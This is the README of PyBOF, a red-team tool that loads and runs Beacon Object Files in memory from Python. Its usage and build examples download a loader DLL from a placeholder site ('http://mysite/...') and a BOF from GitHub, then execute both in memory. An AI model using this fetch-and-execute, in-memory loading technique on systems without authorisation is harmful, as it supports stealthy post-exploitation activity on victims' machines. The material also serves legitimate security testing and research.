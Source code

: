 # `PyBOF`
## Run Beacon Object files through python

in-memory loading and execution of BOFs

`PyBOF` enables Python3 to load Beacon Object Files via bytes and execute a target BOF function in a Python interpreter

## New in this branch
### Based on the research by tishina, I have integrated pythonmemorymodule (naksyn) for allowing loading of the COFFLoader from memory

## Basic Usage

### The run function has now been wrapped in a class for persisting COFFLoader function references. Because of this it must now be accessed the following way.
```python
import bof
coffldr = open(r'c:\path\to\COFFLoader.dll', 'rb').read()
runner = bof.BOF(coffldr)
```

### Once bof.BOF has been initialized it's run function runs exactly the same as the old run function
#### Run a simple BOF with no required arguments
```python
import bof
coffldr = open(r'c:\path\to\COFFLoader.dll', 'rb').read()
runner = bof.BOF(coffldr)
data = open(r'c:\path\to\example.o', 'rb').read()
runner.run(data)
```

### Pass a raw string argument into BOF
```python
import bof
coffldr = open(r'c:\path\to\COFFLoader.dll', 'rb').read()
runner = bof.BOF(coffldr)
data = open(r'c:\path\to\example.o', 'rb').read()
runner.run(data, args=["foo"], raw=True)
# Raw cannot be used with function kwarg
```

### Pass packed/formatted arguments into BOF
```python
import bof
coffldr = open(r'c:\path\to\COFFLoader.dll', 'rb').read()
runner = bof.BOF(coffldr)
data = open(r'c:\path\to\example.o', 'rb').read()
runner.run(data, args=[r"c:\users"], format="Z")
```

## Practical example of execution
```python
import bof
from urllib.request import urlopen
coffldr = urlopen('http://mysite/path/to/COFFLoader.dll').read()
runner = bof.BOF(coffldr)
data = urlopen("https://github.com/trustedsec/CS-Situational-Awareness-BOF/raw/master/SA/dir/dir.x64.o").read()
runner.run(data, args=[r"c:\users"], format="Z")
```

## Args/Kwargs
There are several args that can be used with run function from PyBOFs bof.BOF class, they are described in more detail below

### data
Mandatory first positional argument which must be a byte object which contains the raw contents of a BOF

### args
Optional keyword arg which is a list of arguments to pass into the target BOF function

### function
Optional keyword arg which is the string formatted name of target function to execute from the supplied BOF, this defaults to `go`

### format (NOTICE - These have recently been updated)
Optional keyword arg is a string, which informs the BOF argument packer of the argument types as they are packed into the buffer. This is similar to the format arg from `struct.pack`. The only valid format options are as follows:\
`i` for integer\
`s` for short\
`z` for string\
`b` for binary\
`Z` for wide

At least one format type must be supplied for each arg in the args list. This keyword arg cannot be used in conjunction with `raw`

### raw
Optional keyword arg which is a boolean that passes args as a space-joined string without packing it instead of attempting to pack formatted args for the BOF function. This keyword arg cannot be used in conjunction with `format`

## Building
Clone this repo

```cmd
git clone https://github.com/rkbennett/pybof.git
```

Build the COFFLoader dll (mingw in this example)
```cmd
cd pybof\COFFLoader\source
x86_64-w64-mingw32-gcc-12.2.0.exe -shared -Wall -DBUILD_DLL COFFLoader.c beacon_compatibility.c APIResolve.c -o COFFLoader.x64.dll
```

Place the COFFLoader dll in a location you can access

Change directory to parent of bof directory, import and have fun
```cmd
cd ..\..\
python
>>> import bof
>>> from urllib.request import urlopen
>>> coffldr = urlopen('http://mysite/path/to/COFFLoader.dll').read()
>>> runner = bof.BOF(coffldr)
>>> data = urlopen("https://github.com/trustedsec/CS-Situational-Awareness-BOF/raw/master/SA/dir/dir.x64.o").read()
>>> runner.run(data, args=[r"c:\users"], format="Z")
```

## Gotchas
If a BOF function does not return a value, I raise a warning alerting the user to the fact nothing was returned. I assume this is likely not the intended outcome of an execution, but didn't want to throw hard errors. `If you run a BOF function and receive the no output warning, keep in mind that your args formatting may need defined or may be defined incorrectly` which can cause this issue (specifically using string instead of wide)

## Special Thanks
* [natesubra](https://github.com/natesubra) - For answering my random questions
* [trustedsec](https://github.com/trustedsec) - For [COFFLoader](https://github.com/trustedsec/COFFLoader) (The real MVP)
* [naksyn](https://github.com/naksyn) - For [pythonmemorymodule](https://github.com/naksyn/PythonMemoryModule) (The other MVP)
* [zimnyaa](https://github.com/zimnyaa) - For the initial pythonmemorymodule integration legwork and pythonmemorymodule modifications to allow returning raw funciton addresses, also a great read here: https://tishina.in/execution/python-inmemory-bof